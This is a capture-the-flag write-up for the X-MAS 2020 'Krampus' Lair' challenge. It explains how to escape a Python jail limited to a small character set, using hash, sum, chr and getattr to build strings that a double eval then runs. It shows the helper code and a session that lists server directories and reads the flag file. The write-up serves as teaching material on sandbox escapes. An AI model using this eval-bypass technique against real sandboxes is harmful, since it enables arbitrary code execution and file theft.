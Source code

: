 ```yaml
---
title: "[CTF Writeup] X-MAS 2020 - Krampus' Lair"
date: 2020-12-19T21:34:00+09:00
tags:
  - ctf
  - python
---
```


**CTF**: [Xmas CTF 2020](https://xmas.htsp.ro/)  
**Challenge**: Krampus' Lair  
**Category**: Misc  
**Points**: 492  

```
YOU ARE ONE OF THE BRAVEST ADVENTURERS LAPLAND HAS EVER SEEN. TODAY IS THE DAY YOU DECIDE TO TAKE ON KRAMPUS.
WILL YOU FIGHT? OR WILL YOU PERISH LIKE A GOBLIN?
> █

Target: nc challs.xmas.htsp.ro 6001
Authors: PinkiePie1189, Milkdrop
```

Full code for my solution available [here.](https://gist.github.com/rynorris/b2431f9ec9421dc2319fea554d601709)

The first part of this challenge involves solving a simple text-based adventure game, navigating a map to collect a few items.
I won't cover that part here, since it's fairly simple.

The fun comes when you end up stuck in a python jail, with some rather unique restrictions.

```
YOU ARE NOW STUCK IN THE JAIL, AND YOU MUST ESCAPE IF YOU WANT TO SEE THE
LIGHT OF DAY EVER AGAIN. YOU HAVE ACQUIRED THE FOLLOWING ITEMS:

GEM
HUNTER SNARE
CAN
TIMER
) ( (BOW SET)
  ,
 / (ARROW)
v

YOU ARE ONLY ALLOWED TO USE THE (LOWERCASE) CHARACTERS THAT MAKE UP THESE ITEMS
IN ORDER TO CRAFT A PAYLOAD AND ESCAPE THE PYTHON JAIL. GOOD LUCK!
```

Explicitly, this means we can only use the characters `gemhuntersnarecantimer(),/v`.
So no numbers, no `.` for method calls, no quotes to make strings, etc.

I figured out the full parameters of the problem by entering `time`.

```
> time
You try double eval'ing your contraption: <module 'time' (built-in)>
Gah! Your payload just broke in your hands!
```

Aha!, so essentially the server is going to run `eval(eval(<user-input>))`.  So now I figure the goal is to construct a string in the inner `eval()`, which will then be able to execute without restrictions in the outer `eval()`.

First thing to do was take stock of what we actually _can_ do, since that list is actually very small.  Let's see which builtins we have available:

```python
>>> ALLOWED_CHARS = "gemhuntersnarecantimer(),/v"
>>> [f for f in dir(__builtins__) if all([c in ALLOWED_CHARS for c in f])]
['ascii', 'chr', 'enumerate', 'getattr', 'hasattr', 'hash', 'int', 'isinstance', 'iter', 'min', 'range', 'set', 'setattr', 'str', 'sum', 'vars']
```

We can use `hash()` on any object to get a number, I used `hash(int)`, but anything else would do too.

Then we can divide this by itself to get `1`.

Finally, we can use `sum(1,1,1,...)` to build any number we like!

```python
def one():
    return "int(hash(int)/hash(int))"

def integer(n):
    return "sum((" + ",".join([one()] * n) + "))"
```

Now we can use `chr()` to turn the numbers into characters.

All we need is a way to join the characters together to form a string.

I was stuck here for a while, but eventually figured out that `vars(x)` returns a dict of all the elements in a module or class, and `min(vars(x))` will return the name of one of the elements.  And it just so happens that `min(vars(str)) = "__add__"`!

Now we just have to put it all together:

```python
def string(s):
    chars = [char(c) for c in s]
    out = chars[0]
    for c in chars[1:]:
        out = "getattr(str,min(vars(str)))(" + out + "," + c + ")"

    return out
```

Finally, I set up a script which would navigate the initial maze, and then take input, "compile" it using the above function, and send that through to the server, essentially giving me a full python shell!

```
> print(__import__("os").listdir())
You try double eval'ing your contraption: 'print(__import__("os").listdir())'
['run', 'var', 'tmp', 'boot', 'etc', 'root', 'bin', 'media', 'opt', 'dev', 'proc', 'home', 'lib64', 'srv', 'usr', 'sbin', 'lib', 'mnt', 'sys', '.dockerenv', 'chall']
> print(__import__("os").listdir("chall"))
You try double eval'ing your contraption: 'print(__import__("os").listdir("chall"))'
['text.py', 'flag.txt', 'server.py', '__pycache__']
> print(open("chall/flag.txt").read())
You try double eval'ing your contraption: 'print(open("chall/flag.txt").read())'
X-MAS{70_f1gh7_Kr4mpu5_y0u_f1r57_mu57_br34k_0u7_0f_175_PYTH0N_J41L-017F485A}
```
